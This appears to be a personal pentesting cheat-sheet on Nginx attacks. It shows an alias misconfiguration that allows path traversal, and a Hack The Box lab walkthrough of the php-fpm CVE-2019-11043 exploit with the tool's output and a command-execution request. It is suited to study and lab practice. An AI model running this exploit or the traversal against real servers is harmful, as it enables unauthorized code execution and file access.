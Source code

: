 # Niginx
----

## Miss Configuration
* locationの設定ミスによるPath Traversal
* [Breaking Parser Logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
  
  ```console
  location /i {
      alias /data/w3/images/;
  }
  ```
* http(s)://victim.com/location_dir../path-to-fileでアクセス可能


## CVE-2019-11043(php-fpm)
* [ phuip-fpizdam](https://github.com/neex/phuip-fpizdam)
* Htb: static
  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Static]
  └──╼ $~/go/bin/phuip-fpizdam http://127.0.0.1:80/index.php
  2021/09/16 13:13:49 Base status code is 200
  2021/09/16 13:14:18 Status code 502 for qsl=1765, adding as a candidate
  2021/09/16 13:14:37 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
  2021/09/16 13:16:31 Attack params found: --qsl 1755 --pisos 200 --skip-detect
  2021/09/16 13:16:31 Trying to set "session.auto_start=0"...
  2021/09/16 13:16:57 Detect() returned attack params: --qsl 1755 --pisos 200 --skip-detect <-- REMEMBER THIS
  2021/09/16 13:16:57 Performing attack using php.ini settings...
  2021/09/16 13:17:20 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2021/09/16 13:17:20 Trying to cleanup /tmp/a...
  2021/09/16 13:17:23 Done!
  ┌─[rio@parrot]─[~/Htb/Static]
  └──╼ $curl "127.0.0.1/index.php?a=id"
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  
  Warning: Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
  batch mode: /usr/bin/ersatool create|print|revoke CN
  ```

  
